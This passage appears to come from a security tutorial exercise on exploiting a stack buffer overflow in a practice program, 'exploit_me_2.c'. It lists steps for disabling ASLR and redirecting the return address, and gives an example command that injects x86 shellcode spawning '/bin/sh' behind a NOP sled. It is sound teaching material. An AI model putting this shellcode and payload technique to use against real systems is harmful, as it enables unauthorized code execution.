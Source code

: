 :smile: we exploited the buffer overflow.

#### Try to solve exploit\_me\_2.c `Shellcode injection` :smile:
* Diable ASLR.
* Find the starting address of the buffer using GDB.
* Over flow stack in such a way that return address is starting address of the
buffer.
* The buffer should contain the shellcode.
The exploit might look like this:
```bash
./second `python -c 'import struct;shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; bufferlen=108; print shellcode+"\x90"*(bufferlen-len(shellcode))+"BBBB"+struct.pack("<I", starting address of the buffer)'`
```

